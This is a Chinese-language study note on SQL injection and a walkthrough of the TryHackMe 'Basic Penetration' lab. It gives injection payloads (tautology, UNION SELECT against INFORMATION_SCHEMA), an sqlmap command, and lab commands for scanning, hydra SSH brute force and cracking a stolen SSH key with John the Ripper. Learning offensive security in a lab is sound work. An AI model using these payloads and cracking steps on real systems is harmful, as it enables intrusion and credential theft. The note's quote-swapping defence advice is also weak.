 # Note

## SQL Injection 隱碼攻擊

Introduction 
發生於應用程式之資料庫層的安全漏洞
是輸入的字串之中夾帶 SQL 指令
若程式未過濾，夾帶進去的指令會被資料庫 Server 認為是正常的 SQL 指令執行

1. 最簡單語法 
' or 1=1 # (# 代表後方皆省略)

2. UNION 可以將兩個 SELECT 結合在一起查詢
'UNION SELECT 1,2,3,4# (用這個可以慢慢找出欄位數)
'UNION SELECT ORDER BY 2# (與上方同理)

3. 系統資訊結構描述
一般 SQL 資料庫中都會有一個表格是 "系統資訊結構描述" ，表格名為 Information Schema，亦可透過 UNION 方式檢視 Table Name、Column Name
'UNION SELECT  TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS#

4. 查出資料庫版本、資料庫名稱
透過版本直接上網查是不是有已知漏洞可以打
'UNION SELECT @@version,database()#

5. SQL 檢測工具 - SQLMAP (未用過)
此工具用來檢視是否有 SQL Injection，程式將 SQL Injection 攻擊語法集結而成，透過此可對網站進行滲透
COMMAND:
sqlmap -u [URL] --dbs

strSQL = "SELECT * FROM users WHERE(name = '"+userName+"') and (pw = '"+passWord+"');"
userName = "1' OR '1'='1"
passWord = "1' OR '1'='1"
strSQL = "SELECT * FROM users WHERE(name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
==> strSQL = "SELECT * FROM users;" (因為後面的結果都是 True，所以就直接會變這樣)


預防方式建議:
1. 使用正規化的方式驗證過濾輸入值，可以將 SQL 指令過濾掉，或將單引號變換為雙引號
2. 在不需要使用到更新、插入資料時，資料庫以 view 的方式處理供使用者查詢資料
3. 將伺服器與資料庫部署在不同的機器上

參考:
https://www.slideshare.net/hugolu/sql-injection-61608454

###Tryhackme -Basic Penetration
1. Find the services exposed by the machine
nmap -A ip : 可以把這台機器上有開啟的 Port 掃出來
2. Find the hidden directory on the web server
Use dirsearch 
Command line: python3 dirsearch.py -u ip 
dirsearch 需要特別安裝，還沒探索完全部功能
3. Brute Force username
Use enum4linux
Command line: enum4linux ip -a
Kali 內建，看起來可以 enumeration 很多資訊出來
4. Brute Force password
Use hydra
Command line: hydra -l username -P wordlist ssh://ip
hydra 在 kali 內建，目前不知道為什麼是爆 ssh 不是 smb
5. How to get the other people in the machine and enter it
剛剛利用 hydra 有爆出了 jan 的密碼，ssh 登入 jan 的帳號，進入到此機器後開始機器漫遊，就會看到有另一個使用者 kay，但 hydra 沒有爆出他的密碼，但他有一個 pass.bak 的檔案看起來很香，可是卻沒有權限看這個檔案，因為這個檔案只有 kay 和 root 可以看，但現在登入的使用者是 jan 
但是有另一個 .ssh 檔案夾，等等去查裡面到底有些什麼，反正有個 id_rsa 好像是密鑰什麼的，可以利用這個登入 kay 帳號，前提要先把這個檔案夾 copy 一份到本地端，利用 scp 指令
Command line : ssh kay@ip -i id_rsa 
很不幸的是 id_rsa 這個檔案也需要密碼，必須 crack 出這個密碼
Use Johntheripper 進行 ssh key 密碼破解
將 ssh key 轉成 john 格式
Command line : python ssh2john.py id_rsa > john_hash
上一部是將 ssh key 轉換成 john 可以看懂的形式
Command line : john john_hash --wordlists=rockyou.txt
做完這一步，會拿到 kay 的 id_rsa 密碼，在利用同樣方式登入即可拿到最後一題的答案
